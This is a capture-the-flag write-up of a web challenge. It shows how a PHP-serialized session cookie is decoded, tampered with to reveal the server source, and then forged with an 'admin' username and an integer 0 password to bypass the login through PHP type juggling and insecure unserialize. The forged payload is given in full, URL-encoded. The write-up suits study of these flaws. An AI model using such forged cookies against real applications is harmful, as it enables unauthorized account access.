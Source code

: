 # Usual or Unusual
**Category: Web**
> "A company developed an authentication system and gave it to us for testing, I told the developers the way they authenticate a user is dangerous and unusual,
But they disagreed and told me if i find the secret flag, They would reconsider. Help me find it."


This challenge site was a login page. We get assigned a cookie upon visiting:

`Set-Cookie: cookie=O%3A4%3A%22User%22%3A5%3A%7Bs%3A8%3A%22%00User%00id%22%3Bs%3A30%3A%22890143755983288300723865605783%22%3Bs%3A14%3A%22%00User%00username%22%3Bs%3A5%3A%22guest%22%3Bs%3A14%3A%22%00User%00password%22%3Bs%3A5%3A%22guest%22%3Bs%3A16%3A%22%00User%00showSource%22%3Bb%3A0%3Bs%3A11%3A%22%00User%00color%22%3Bs%3A7%3A%22%23FFFFFF%22%3B%7D; expires=Sun, 23-May-2021 00:41:53 GMT; Max-Age=2592000; path=/; HttpOnly; SameSite=Strict`

URL decoded and formatted, we can view the serialized data more clearly:
```php
O:4:"User":5: {
    s:8:".User.id";
    s:30:"890143755983288300723865605783";
    s:14:".User.username";
    s:5:"guest";
    s:14:".User.password";
    s:5:"guest";
    s:16:".User.showSource";
    b:0;
    s:11:".User.color";
    s:7:"#FFFFFF";
}
```

`.User.showSource` is interesting, let's modify our cookie to have `.User.showSource` as `1` and see what happens.

Performing the request again with the modified cookie shows the [source](source.php). The interesting snippet of code is here:

```php
...
if(isset($_COOKIE["cookie"])){
    $user = unserialize($_COOKIE["cookie"]);
    if($user->getShowSource()){
        highlight_file(__FILE__);
        die();
    }else{
        $userColor = $user->getColor();
        gmp_random_seed($seed);
        $rand = gmp_random_bits(100);
        $password = $flag . gmp_strval($rand);
        if($user->getUsername() == "admin"){
            if($user->getPassword() == $password){
                $result = $flag;
            }
        }
    }
}
...
```

The `$result` variable later gets printed to the page. This shows us that in order to get the flag, `$user->getShowSource()` must be false, our username must be `admin`, and our password must be equal to a specific randomized value.

Knowing the value of the `$password` variable we compare against ahead of time is not possible, but we can bypass this with Type Juggling. In PHP, comparing a string to `0` returns `true`. Let's build a custom cookie to abuse this feature (note that the password type gets changed to integer):

```php
O:4:"User":5: {
    s:8:".User.id";
    s:30:"890143755983288300723865605783";
    s:14:".User.username";
    s:5:"admin";
    s:14:".User.password";
    i:0;
    s:16:".User.showSource";
    b:0;
    s:11:".User.color";
    s:7:"#FFFFFF";
}
```
Encoded: `cookie=O%3A4%3A%22User%22%3A5%3A%7Bs%3A8%3A%22%00User%00id%22%3Bs%3A30%3A%22890143755983288300723865605783%22%3Bs%3A14%3A%22%00User%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00User%00password%22%3Bi%3A0%3Bs%3A16%3A%22%00User%00showSource%22%3Bb%3A0%3Bs%3A11%3A%22%00User%00color%22%3Bs%3A7%3A%22%23FFFFFF%22%3B%7D`

Sending a request with this cookie returns the flag: `SBCTF{unserialize_k1nd4_SUS_th0}`
